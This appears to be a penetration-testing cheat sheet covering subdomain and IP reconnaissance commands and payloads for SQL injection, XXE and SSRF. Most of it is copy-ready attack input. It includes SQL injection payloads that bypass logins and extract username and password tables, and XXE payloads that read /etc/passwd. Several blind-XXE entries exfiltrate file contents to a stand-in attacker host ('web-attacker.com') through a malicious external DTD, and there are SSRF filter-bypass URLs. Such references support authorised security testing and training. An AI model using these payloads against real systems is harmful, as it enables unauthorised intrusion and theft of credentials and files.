 ## [](#header-2) Enumeration / Recon
Burp Regex for Scope Control
```powershell
.*\.example\..*$
```
Find Emails
```powershell
https://phonebook.cz/
```
Reverse Whois Search
```powershell
https://www.whoxy.com/example.com
```
Find Domains Hosted On The Same IP Address
```powershell
https://api.hackertarget.com/reverseiplookup/?q=example.com
```
Pulling root domains
```powershell
Whoxy Reverse Whois API

cat asn.txt | tlsx -san -cn -silent -resp-only | grep -v "example.com"

amass intel -asn 3389

https://crt.sh
cat crt | jq -r '.[].common_name' | sed 's/\*\.\(.*\)/\1/' | rev | cut -d "." -f 1,2 | rev | grep -v " " | sort -u
```
Resolve IP Addresses In A Subnet Range
```powershell
subnet.py [subnet range] | httpx -probe -sc -cl -td -fr | grep "SUCCESS"
xargs -a asn -I {} bash -c 'subnet.py {} | httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"'
```
Extract A records for the given list of subdomains
```powershell
dnsx -l testsubs -silent -a -resp-only
```
Subdomain Enumeration Commands
```powershell
subfinder -d example.com -all
assetfinder -subs-only example.com
amass enum -d example.com -active
amass enum -d example.com -passive
```
Subdomain Bruteforce
```powershell
~/Desktop/tools/subbrute/subbrute.py example.com
~/Desktop/tools/subbrute/subbrute.py -s ~/Desktop/tools/massdns/lists/names.txt example.com
```
Subdomain Permutations
```powershell
cat domains.txt | dnsgen - | dnsx -silent
sed 's/A.*//' livesubs | sed 's/CN.*//' | sed 's/\..$//' > domains.resolved
```
HTTPX Command
```powershell
httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"
```
Find Important Keywords In A List Of Subdomains Or Urls
```powershell
isubs.sh file.txt
```
## [](#header-2) Sqli
SQL injection cheat sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

Basic Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

Basic Payload: `https://insecure-website.com/products?category=Gifts'--`

### Subverting Application Logic

Query: `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

Payload: `administrator'--`

### Retrieving data from other database tables

Query: `SELECT name, description FROM products WHERE category = 'Gifts'`

Payload: `' UNION SELECT username, password FROM users--`

### SQL injection UNION attacks

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query. For example: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

Determining the number of columns: `' ORDER BY 1--` or `' UNION SELECT NULL,NULL--` (note: number of nulls, order by = number of columns)

On Oracle, every SELECT query must use the FROM keyword and specify a valid table: `' UNION SELECT NULL FROM DUAL--`

conditional based blind SQL injection:`' union select null from users where username='administrator' and 1 = (SELECT CASE WHEN (length(password)=10) THEN 1/(SELECT 0) ELSE NULL END)--`

### Extracting sensitive data via verbose SQL error messages

Payload: `' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

## [](#header-2) XXE

### Exploiting XXE to retrieve files

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///path/to/file"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Exploiting XXE to perform SSRF attacks

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
Bypass filtering and validation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
<stockCheck><productId>1</productId></stockCheck>
```

### Exploiting blind XXE to exfiltrate data out-of-band
malicious external DTD:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
XXE payload to the vulnerable application:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Exploiting blind XXE to retrieve data via error messages
malicious external DTD:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
XXE payload to the vulnerable application:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Exploiting blind XXE by repurposing a local DTD
if out-of-band interactions are blocked, invoke a DTD file that happens to exist on the local filesystem and repurpose it to redefine an existing entity in a way that triggers a parsing error containing sensitive data:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
Locating an existing DTD file to repurpose:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
test a list of common DTD files to locate a file that is present

### XInclude attacks
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### XXE attacks via image upload
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
## [](#header-2) SSRF

### SSRF with blacklist-based input filters
```
http://127.1/%2561dmin
http://2130706433/%2561dmin
http://017700000001/%2561dmin
```

### SSRF with whitelist-based input filters
```
1 - https://expected-host:fakepassword@evil-host
2 - https://evil-host#expected-host
3 - https://expected-host.evil-host
4 - URL-encode characters to confuse the URL-parsing code
```
